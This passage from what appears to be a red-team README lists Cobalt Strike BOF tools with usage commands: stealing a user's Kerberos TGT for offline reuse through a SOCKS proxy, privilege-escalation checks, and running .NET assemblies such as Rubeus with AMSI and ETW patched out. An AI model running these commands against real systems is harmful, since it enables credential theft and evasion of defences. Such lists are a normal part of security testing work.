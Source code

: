 ```
Request TGT of active user in the current domain obtained from USERDNSDOMAIN environment variable, outputs TGT blobs to .kirbi and .ccache files<br />
```
tgtdelegation currentdomain default
[+] received output:
[+] tgtdelegation succeeded!

[+] Invoking tgtParse.py to obtain a usable .ccache!

[+] Successfully decrypted the AP-REQ response!

[+] Local path to usable .ccache: /home/loki@MARVEL.LOCAL.ccache
[+] Local path to usable .kirbi: /home/loki@MARVEL.LOCAL.kirbi
```
Now use .ccache or .kirbi files offline on a Linux system to load TGT into memory: <br />
```export KRB5CCNAME=/home/loki@MARVEL.LOCAL.ccache``` <br />
Continue to use ticket in memory with other tooling of your choice through SOCKS proxy! (i.e. Impacket's `-k -no-pass` command) <br />

- [**PrivKit**](https://github.com/mertdas/PrivKit)<br />
Windows privilege escalation BOF kit used for detecting priv esc vulnerabilities including unquoted service paths, hijackable paths, autologon registry keys, etc.<br />
Check for all vulnerabilities supported: <br />
```privcheck```

- [**enumfiles BOF**](https://github.com/wsummerhill/BOF-enumfiles)<br />
Simple BOF I developed in C++ to quickly enumerate local files of interest for post-exploitation. Useful to help find potential LOLbins, remoting software, browser or web server installations, etc.<br />
```
enumfiles show --> Dont run checks, just show all enumeration checks and files/folders supported
enumfiles all --> Run all enumeration checks
enumfiles lolbins --> Run only lolbins checks
enumfiles browser-userdata --> Run only browser user data
enumfiles remoting --> Run only remoting software checks
enumfiles webservers --> Run only webserver checks
...
```

- [**xPipe**](https://github.com/boku7/xPipe)<br />
Made by Bobby Cooke to list all active pipes on a local system and return their DACL permissions. Useful for finding pipe names to create similar pipes when using SMB Beacons.<br />
```
xpipe --> List all the pipes
xpipe \\.\pipe\lsass --> List a specific pipe and show its owner & DACL permissions
```

- [**SafeHarbor-BOF**](https://github.com/ibaiC/SafeHarbor-BOF)<br />
BOF to find detaile dprocess information such as: RWX process regions, .NET processes, signed binaries, etc.<br />
```safe_harbor```

---
### Executing .NET Assemblies

- [**InlineExecute-Assembly**](https://github.com/anthemtotheego/InlineExecute-Assembly)<br />
Perform .NET assembly execution of any .NET executable without any prior modifications required<br />
The BOF also supports several flags to disabling AMSI via in memory patching, disabling and restoring ETW via in memory patching, or customization of the CLR App Domain name to be created<br />
```inlineExecute-Assembly --dotnetassembly /home/Seatbelt.exe --assemblyargs AntiVirus AppLocker --etw --amsi --mailslot totallyLegitMailslot```

- [**inject-assembly**](https://github.com/kyleavery/inject-assembly)<br />
Another alternative .NET executable loader to inject an assembly into a running process<br />
```inject-assembly 0 /home/Rubeus.exe [args...]```

```